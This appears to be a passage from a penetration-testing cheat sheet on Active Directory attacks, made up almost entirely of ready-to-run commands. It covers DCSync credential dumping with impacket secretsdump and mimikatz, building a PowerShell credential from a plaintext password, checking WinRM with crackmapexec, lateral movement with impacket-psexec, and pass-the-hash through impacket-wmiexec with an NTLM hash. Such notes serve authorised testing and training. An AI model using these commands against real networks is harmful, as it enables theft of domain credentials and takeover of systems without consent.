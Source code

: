 ### impacket
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

### mimikatz
```
lsadump::dcsync /domain:domina.com /user:dcsyncuser
```
# Lateral Movement

How to create a PSCredential:
```
$username = 'ken';
$password = 'password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```

## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

```
impacket-psexec test.local/john:password123@10.10.10.1
```

## Pass the Hash

### Impacket:

#### WMI:

Prerequisites: In order to create a process on the remote target via WMI, we need credentials of a member of the `Administrators` local group, which can also be a domain user.

```
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@$rhost
```
